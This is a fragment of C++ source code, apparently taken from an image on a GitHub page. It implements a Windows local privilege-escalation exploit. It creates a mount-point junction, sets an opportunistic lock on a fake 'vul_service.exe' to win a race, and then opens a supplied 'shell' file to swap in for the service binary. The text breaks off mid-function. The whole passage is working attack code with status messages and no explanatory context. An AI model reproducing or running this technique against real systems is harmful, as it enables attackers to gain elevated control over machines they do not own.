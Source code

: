 ```c++
	symlink = argv[1];
	target = argv[2];
	lock = argv[3];
	shell = argv[4];
	sys = L"C:\\Windows\\System32";

	if (argc < 5)
	{
		printf("CreateMountPoint.exe symlink target lock shell\n");
		return 1;
	}

	
	
	CreateDirectory(target, 0);
	if (CreateDirectory(symlink, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
	{
		printf("[+] Create symlink\n");
		if (!ReparsePoint::CreateMountPoint(symlink, target, L""))
		{
			printf("Error creating mount point - %d\n", GetLastError());
			exit(-1);
		}

		printf("[+] Create fake vul_service.exe\n");
		HANDLE handle = CreateFile(lock, GENERIC_READ, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
		CloseHandle(handle);

		printf("[+] Lock\n");
		LPCWSTR share_mode = L"RW";
		oplock = FileOpLock::CreateLock(lock, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);

			delete oplock;
		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}

		printf("[+]load shell\n");
		Sleep(1000);

		HANDLE lock_handler = CreateFile(lock, GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
		if (lock_handler == INVALID_HANDLE_VALUE)
		{
			printf("Error open lock, %d\n", GetLastError());
			return 1;
		}
		HANDLE shell_handler = CreateFile(shell, GENERIC_READ, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
		if (shell_handler == INVALID_HANDLE_VALUE)
		{
			printf("Error open shell, %d\n", GetLastError());
			return 1;
		}

		DWORD szr = GetFileSize(shell_handler, 0);
```